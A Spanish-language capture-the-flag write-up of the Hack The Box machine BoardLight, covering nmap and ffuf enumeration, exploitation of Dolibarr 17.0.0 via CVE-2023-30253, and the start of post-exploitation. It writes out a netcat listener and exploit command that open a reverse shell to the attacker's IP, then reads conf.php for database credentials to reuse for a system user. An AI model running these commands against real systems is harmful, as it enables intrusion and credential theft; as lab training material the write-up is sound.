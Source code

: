 <h1>Enumeración</h1>
comenzamos la enumeracion de la máquina victima ejecutando un ping a la IP objetivo 10.10.11.11 para comprobar que la máquina está activa:
![Captura de pantalla 2024-06-26 a las 11 15 41](https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/9d4b7303-ca0f-4a1e-9f72-f86a23caea0e)

Como podemos observar, la máquina está activa ya que nos devuelve el ping y, por el ttl=63, podemos intuir que estamos ante una máquina linux.

Vamos ahora a realizar un escaneo sencillo con nmap para ver que puertos están abiertos y que servicios corren en ellos: 

sudo nmap -p- -sV -sS --min-rate 5000 -n 10.10.11.11 -oN scan.txt

![Captura de pantalla 2024-06-26 a las 11 18 46](https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/e3c448fb-1c9d-4ca8-b66f-7a5373852a0d)

Podemos ver que los puertos 22 (ssh) y 80 (http) estan abiertos y corriendo un servidor OpenSSH y un servidor web Apache respectivamente, por lo que vamos a intentar
acceder al servidor de apache a través del navegador: 

![Captura de pantalla 2024-06-26 a las 11 20 53](https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/0f393783-6013-45c9-9e85-b03800732a86)

Como podemos ver el servidor resuelve rápido la petición a través de la Ip y llegamos a esta págima de destino, vamos a echar un vistazo a ver si vemos algo interesante...

Al tratarse de un sitio web hecho en PHP, podemos intentar explotar algún tipo de LFI empleando algún wraper de PHP desde la propia URL del sitio, en concreto, 
si enviamos un formulario vacío que podemos encontrar en el pie de página, vemos que se realiza una petición (10.10.11.11/index.php?), vamos a ver si podemos explotarlo:

Como podemos ver en la petición del formulario, no se envía ningún tipo de dato y simplemente nos recargar la misma página de contacto:

![Captura de pantalla 2024-06-26 a las 11 31 30](https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/a3d5eb64-457f-428d-be39-8eb23d05f860)

Puesto que no podremos explotar un LFI ni un potencial SSRF, vamos a seguir con el proceso de enumeración haciendo fuzzing para encontrar directorios o subdominios potencialmente
vulnerables. Un dato  interesante es que encontramos un correo de contacto en el pie de página de la web que nos sugiere que existe un dominio board.htb
![Captura de pantalla 2024-06-26 a las 11 39 43](https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/e7b003d9-e67c-40d4-8d33-19698f4402eb)

Así que podemos añadir este dominio a nuestro etc/hosts ya que si lo probamos en el navegador nos dirige al mismo servidor web.
![Captura de pantalla 2024-06-26 a las 11 41 51](https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/11714c8e-07da-4d02-a67f-3eb37fabba9c)

Ahora, vamos con el fuzzing. Usaremos la herramienta ffuf y un diccionario de SecList para ver que encontramos:

sudo ffuf -u http://FUZZ.board.htb -t 200 -c -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt

Este comando con ffuf, nos encuentra el subdominio crm, por lo que existe crm.board.htb, vamos a añadirlo al etc/hosts y a acceder a el a ver que contiene:
![Captura de pantalla 2024-06-26 a las 14 14 48](https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/18bc9fb8-748e-4183-82f4-0734f35eb6d8)
![Captura de pantalla 2024-06-26 a las 14 15 12](https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/d69fa083-1a2a-417c-84f0-0ac22077311b)

En este subdomino, podemos acceder a una página de inicio de sesión del conocido gestor de relaciones con los clientes, Dollibar, en su versión 17.0.0

![Captura de pantalla 2024-06-26 a las 14 27 14](https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/3b79efd3-dd75-45d2-b338-33ed3b440877)


Si buscamos algo de información en Google acerca de este software y dicha versión, podemos ver que existe una vulnerabilidad asociada que nos permite explotar 
ejecución remota de comandos (RCE) y otorgarnos una shell reversa. La vulnerabilidad está reportada como la CVE-2023-30253 y el repositorio de github encontrado para 
esta vulnerabilidad, que contiene un script en python, es el siguiente: https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253

De este modo, vamos a descargarnos y a ejecuar el script en python para otorgarnos una shell reversa del siguiente modo:

Con -> nc -lvnp 9001 nos ponemos en escucha por el puerto 9001
Con -> python3 exploit.py http://crm.board.htb admin admin 10.10.14.28 9001 (Nos la enviamos a nuestra propia Ip)

![Captura de pantalla 2024-06-26 a las 14 31 42](https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/2c3a47f3-58b0-4fa2-b995-993ec3ad8055)
![Captura de pantalla 2024-06-26 a las 14 31 54](https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/9892eec0-9b0e-4451-a8f0-0a0cb4f1e665)

Si dentro de la máquina victima, retrocedemos un par de directorios hacia atrás en busca de algo interesante, podemos detenernos en la ruta /htbdocs y si
listamos el contenido con ls -la, podemos encontrar un fichero conf que puede resultar interesante para este tipo de servidores (conf.php) ya que suele 
contener usuarios y credenciales de alguna base de datos que se esté usando.

![Captura de pantalla 2024-06-26 a las 14 37 45](https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/72d83f29-d067-4ec4-8e2d-c65de7956112)

![Captura de pantalla 2024-06-26 a las 14 39 38](https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/c5118307-7d72-42ac-a226-935d1a332bce)

Y efectivamente, dentro de config.php enontramos credenciales de acceso para una base de datos mysql.

Si intentamos acceder a la base de datos mysql, el sistema nos indica que no tenemos permiso de acceso como usuario www-data por lo que tendremos que encontrar 
otra vía de acceso. 
![Captura de pantalla 2024-06-26 a las 14 44 24](https://github.com/alvaroogs013/WriteUp-HTB-BoardLight/assets/131161276/fad76804-5738-4fb6-a192-d1f51ec81984)

Retrocediendo hasta el directorio /home, encontramos el directorio de un usuario a nivel de sistema llamado larissa, así que podemos probar a iniciar sesión
con este usuario y con la credencial obtenida en conf.php mediante el script anterior de python.



